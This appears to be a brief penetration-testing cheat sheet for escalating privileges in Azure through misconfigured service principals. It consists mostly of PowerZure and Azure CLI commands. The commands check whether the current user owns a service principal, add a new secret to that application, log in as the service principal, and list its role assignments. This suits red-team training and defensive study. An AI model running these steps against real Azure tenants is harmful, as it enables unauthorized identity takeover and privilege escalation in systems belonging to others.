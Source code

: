 # Misconfigured Service Principals Privesc

### Tools: Powerzure

## Steps:

 - Import-Module Powerzure.ps1 (Import powerzure module)

 - Get-AzureAppOwner (Verify whether the current user is assigned as the owner of a service principal)

 - Add-AzureSPSecret -ApplicationName APP_NAME -Password PASSWORD (Add a new secret to APP_NAME to allow us to authenticate with the app)

 - $Credential = Get-Credential

 - Connect-AzAccount -Credential $Credential -Tenant TENANT_ID -ServicePrincipal (Windows Powershell)

## OR

 - az login --service-principal --username APP_ID --password PASSWORD --tenant TENANT_ID (Azure CLI)

## NOTE: Don't forget to make a note of the APP_ID to authenticate as the service principal!

 - az role assignment list --assignee APP_ID --include-groups --include-inherited --query '[].{username:principalName, role:roleDefinitionName, usertype:principalType, scope:scope}' (Verify the role assignment and scope of the service principal)
